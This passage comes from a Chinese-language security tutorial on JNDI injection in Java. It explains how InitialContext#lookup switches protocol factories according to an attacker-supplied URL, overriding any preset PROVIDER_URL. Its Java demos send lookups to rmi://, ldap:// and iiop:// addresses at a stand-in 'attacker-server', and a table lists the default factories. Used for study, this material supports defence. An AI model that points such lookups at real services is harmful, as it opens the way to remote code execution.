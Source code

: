 ##  3. <a name='-1'></a>动态协议转换
在上文的示例代码中都手动设置了对应服务的工厂以及对应服务的`PROVIDER_URL`, 其实在`JNDI`中是可以进行动态协议转换的, 示例代码如下:

 - Demo-1
```java
Context context = new InitialContext();
context.lookup("rmi://attacker-server/refObject");
context.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
context.lookup("iiop://attacker-server/bar");
```

 - Demo-2
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:8888");
Context context = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
context.lookup(name);
```

在`Demo-1`的代码中没有设置对应服务的工厂以及`PROVIDER_URL`, `JNDI`根据传递的`URL`协议自动转换与设置了对应的工厂及`PROVIDER_URL`. 在`Demo-2`的代码中可以看到, 即使服务端提前设置了工厂与`PROVIDER_URL`也没有什么影响, 当`lookup`操作时的参数能够被攻击者控制时, 依旧会根据攻击者提供的`URL`进行动态转换并覆盖掉最初设置的`PROVIDER_URL`, 将`lookup`操作指向攻击者控制的服务器.

从源码层面上来看看具体的流程, 跟进`InitialContext#lookup`方法, 在返回值中会调用`InitialContext#getURLOrDefaultInitCtx`方法, 继续跟进该方法, 在这里会进行动态转化操作.

![InitialContext#lookup](./images/4.png)

![InitialContext#getURLOrDefaultInitCtx](./images/5.png)

`JDK`中默认支持的`JNDI`自动协议转换以及对应的工厂类如下:
|协议|schema|Context|
|:----|:----|:----|
|DNS|dns://|com.sun.jndi.url.dns.dnsURLContext|
|RMI|rmi://|com.sun.jndi.url.rmi.rmiURLContext|
|LDAP|ldap://|com.sun.jndi.url.ldap.ldapURLContext|
|LDAP|ldaps://|com.sun.jndi.url.ldaps.ldapsURLContext|
|IIOP|iiop://|com.sun.jndi.url.iiop.iiopURLContext|
|IIOP|iiopname://|com.sun.jndi.url.iiopname.iiopnameURLContext|
|IIOP|corbaname://|com.sun.jndi.url.corbaname.corbanameURLContext|
